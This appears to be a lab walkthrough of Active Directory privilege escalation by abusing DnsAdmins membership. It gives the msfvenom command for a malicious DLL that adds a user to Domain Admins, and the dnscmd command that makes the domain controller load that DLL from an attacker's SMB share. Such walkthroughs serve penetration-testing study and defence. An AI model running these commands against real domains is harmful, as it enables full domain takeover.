





Introduction
What is the DNS Admins Group?
Members of the DNS Admins group have privileges to add or modify Active Directory domains. They also have the ability to add a new configuration via a DLL file to any domain -- and this is what we are interested in. Therefore, we will create a malicious DLL using msfvenom and install it as a new configuration on the Domain Controller. When the DNS Service is restarted or the Domain Controller itself is rebooted, the DLL will be loaded and executed.
Walkthrough

Step 1: Verify DNS Admins Membership
First, we are logged in as the user jehad. We will run a command to check whether the user jehad is a member of the DNS Admins group.
As we can see in the output, the user jehad is indeed a member of the DNS Admins group. Now all we need to do is create a DLL file that adds us to the Domain Admins group.
Step 2: Create a Malicious DLL with msfvenom
We generate the DLL using msfvenom. This DLL, when executed, will run a command that adds our user to the Domain Admins group:
msfvenom -p windows/x64/exec cmd='net group "domain admins" jehad /add /domain' -f dll > dns.dll

Step 3: Start an SMB Share
Now we need to open an SMB share so that when the DNS Service is restarted or the Domain Controller reboots, it will load the DLL from our share and execute it.

Step 4: Add the DLL as a Server-Level Plugin
Now we will execute the command to add a new configuration, specifying the path to our DLL file located on the SMB share, and targeting the Domain Controller:
dnscmd.exe WIN-1PL5L23B93J.vulnerable.local /config /serverlevelplugindll \\192.168.100.114\jehad\dns.dll
At this point, if the Domain Controller is restarted or the DNS Service is restarted, the DLL will be loaded and it will add us to the Domain Admins group.

Step 5: Trigger the DLL Execution
After restarting the Domain Controller, we can see that the DLL file was loaded and executed successfully.
Step 6: Verify Domain Admin Membership
Now we will run the following command to check whether the user jehad has been added to the Domain Admins group:
get-netgroupmember -identity "Domain Admins"
As we can see in the output, the user jehad has been successfully added to the Domain Admins group, confirming full domain compromise through DNS Admins group abuse.
